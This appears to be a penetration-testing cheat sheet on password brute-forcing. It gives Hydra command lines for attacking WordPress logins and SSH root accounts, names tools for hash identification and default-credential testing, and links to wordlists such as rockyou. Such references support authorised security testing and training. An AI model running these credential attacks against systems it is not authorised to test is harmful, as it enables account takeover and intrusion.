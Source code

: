 # Password Bruteforcing

## Hash identify

```
# https://github.com/noraj/haiti
haiti hash
```

## Test for default credentials

```
# https://github.com/ztgrace/changeme
./changeme.py example.com
```

```
# https://github.com/x90skysn3k/brutespray
See documentation
```

## Hydra

Hydra is a command-line tool for online password attacks, such as website login pages and ssh.

### General format for website attacks:

```
hydra -L <username list> -p <password list> [host] http-post-form "<path>:<form parameters>:<failed login message>"
```

### Wordpress

Attack WordPress login page with a known username, success parameter S= instead of failure parameter, verbose output:

```
hydra -l [username] -P /usr/share/wordlists/rockyou.txt [host] http-post-form "/wp-admin/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:S=http%3A%2F%2F[host]%2Fwp-admin%2F" -V
```

### SSH

```
# default
hydra -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh

# no standard port
hydra -s 22022 -l root -P /usr/share/wordlists/fasttrack.txt [host] ssh

# with a username wordlist and ports
hydra -s 22022 -L userlist.txt -P /usr/share/wordlists/fasttrack.txt [host] ssh -t 4  -v
``` 



|URl|Description|
|---|---|
|https://nordpass.com/most-common-passwords-list/ | Most used password by nord vpn |
|https://github.com/ihebski/DefaultCreds-cheat-sheet| Default credentials for dozen of applications |
|https://cirt.net/passwords | Default credentials for dozen of applications |
|https://forum.ywhack.com/bountytips.php?password | Default credentials for dozen of applications |
|https://github.com/noraj/pass-station/ | Tool to search for creds|
| ## | ## |
|https://github.com/ignis-sec/Pwdb-Public| Mass list of passwords, based on data |
|https://bit.ly/3nFUfJG | Rockyou list 🤘 |
|https://github.com/1N3/IntruderPayloads| Lists used by burp |
|https://github.com/WillieStevenson/top-100-passwords/blob/master/password-list.txt | Top 100 passwords |
